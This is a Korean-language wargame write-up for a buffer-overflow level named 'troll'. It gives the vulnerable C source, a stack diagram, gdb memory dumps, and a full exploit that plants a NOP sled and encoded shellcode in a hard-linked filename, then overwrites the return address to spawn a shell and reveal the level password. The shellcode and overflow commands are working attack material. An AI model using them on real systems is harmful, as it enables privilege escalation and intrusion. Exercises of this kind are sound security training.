 ============================================================================================================
[redhat-lob] troll
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[0] address"];
    }

|

Source Code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

	#include <stdio.h>
	#include <stdlib.h>

	extern char **environ;

	main(int argc, char *argv[])
	{
		char buffer[40];
		int i;

		// here is changed
		if(argc != 2){
			printf("argc must be two!\n");
			exit(0);
		}

		// egghunter
		for(i=0; environ[i]; i++)
			memset(environ[i], 0, strlen(environ[i]));

		if(argv[1][47] != '\xbf')
		{
			printf("stack is still your friend.\n");
			exit(0);
		}

		// check the length of argument
		if(strlen(argv[1]) > 48){
			printf("argument is too long!\n");
			exit(0);
		}

		strcpy(buffer, argv[1]);
		printf("%s\n", buffer);

		// buffer hunter
		memset(buffer, 0, 40);

		// one more!
		memset(argv[1], 0, strlen(argv[1]));
	}


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하면 오버플로우가 발생한다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte) <- strcpy overflow
	argc    (4byte)
	argv    (4byte)
	----------------
	HIGH    
	================

|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.

.. code-block:: console

	$ ./troll `python -c 'print "a"*47'`

	stack is still your friend.

	$ ./troll `python -c 'print "a"*47+"\xbf"'`

	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
	Segmentation fault




|

exploit
============================================================================================================

기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.

기존 문제와 달리 argv[1]을 초기화 해버리기 때문에 argv[1]로 버퍼오버플로우를 진행할 수 없으므로, argv[0]에 쉘코드를 삽입하고 RET 주소를 argv[0] 주소로 변경하여야 한다.

argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
	
	$ ln troll `python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`
	$ ls
	troll
	troll.c    
	????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒
	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a

	stack is still your friend.


앞의 조건에 argv[1]을 초기화하기 때문에, gdb를 이용하여 argv[0]이 가리키는 주소를 찾는다.

.. code-block:: console

	(gdb) b *main
	Breakpoint 1 at 0x8048500

	(gdb) r `python -c 'print "a"*47+"\xbf"'`
	Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
							  1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
	/bin/bash: /home/goblin/.bashrc: Permission denied

	Breakpoint 1, 0x8048500 in main ()

	(gdb) stepi
	0x8048501 in main ()    

	(gdb) i reg $esp
	esp            0xbffff9a8       -1073743448

	(gdb) i reg $ebp
	ebp            0xbffff9c8       -1073743416

	(gdb) x/100x $esp

	==========================================================================
	0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
	0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
	0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
	0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
	0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
	0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
	0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
	0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
	0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
	0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
	0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
	0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
	0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
	0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
	0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
	0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
	0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
	0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
	0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
	0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
                                          ^               ^               ^	
	0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^               ^
	0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^ argv[0] = 0xbffffbbf
	==========================================================================

|

RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[0] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[0]의 주소로 변경하여 해당 쉘코드가 실행되도록 한다. argv[0]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

filename : nop (100 byte) + shellcode (70 byte) 

argv[1] : nop (19 byte) + shellcode (25 byte) + argv[0] address



.. code-block:: console

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*44 + "\xbf\xfb\xff\xbf"'`
	▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
										   ̀▒▒▒▒

	bash$ whoami
	troll
	bash$ my-pass
	euid = 508
	aspirin
